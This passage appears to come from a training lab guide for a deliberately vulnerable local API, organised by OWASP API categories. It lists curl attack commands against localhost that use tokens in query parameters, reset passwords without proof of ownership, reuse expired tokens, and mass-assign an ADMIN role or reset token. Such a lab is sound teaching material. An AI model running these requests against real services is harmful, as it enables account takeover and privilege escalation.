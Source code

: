 **Expected Result**: Bob can access Alice's data without ownership check.

## API2: Broken Authentication

### Attack: Use Token in Query Parameter
```bash
# Use token in query parameter instead of Authorization header
curl -sX GET "http://localhost:3000/api/v1/users/1?token=$ALICE_TOKEN" | jq .
```

### Attack: Password Reset Without Proof of Ownership
```bash
# Request password reset for any email (no verification)
curl -sX POST http://localhost:3000/api/v1/auth/reset \
  -H "Content-Type: application/json" \
  -d '{"email":"victim@example.com"}' | jq .
```

### Attack: Use Expired Token
```bash
# Create a token that expires in 1 second
EXPIRED_TOKEN=$(curl -sX POST http://localhost:3000/api/v1/auth/login \
  -H "Content-Type: application/json" \
  -d '{"email":"alice@demo.local","password":"alice123"}' | jq -r .token)

# Wait 2 seconds, then use the expired token
sleep 2
curl -sX GET "http://localhost:3000/api/v1/users/1" \
  -H "Authorization: Bearer $EXPIRED_TOKEN" | jq .
```

**Expected Result**: Expired tokens are still accepted.

## API3: Broken Object Property Level Authorization (BOPLA)

### Attack: Mass Assignment During Registration
```bash
# Register with admin role (should not be allowed)
curl -sX POST http://localhost:3000/api/v1/auth/register \
  -H "Content-Type: application/json" \
  -d '{
    "email":"hacker@demo.local",
    "password":"hacker123",
    "name":"Hacker User",
    "role":"ADMIN"
  }' | jq .
```

### Attack: Update Sensitive Fields
```bash
# Update user with sensitive fields (role, resetToken)
curl -sX PATCH "http://localhost:3000/api/v1/users/2" \
  -H "Authorization: Bearer $BOB_TOKEN" \
  -H "Content-Type: application/json" \
  -d '{
    "role":"ADMIN",
    "resetToken":"fake-token"
  }' | jq .
```
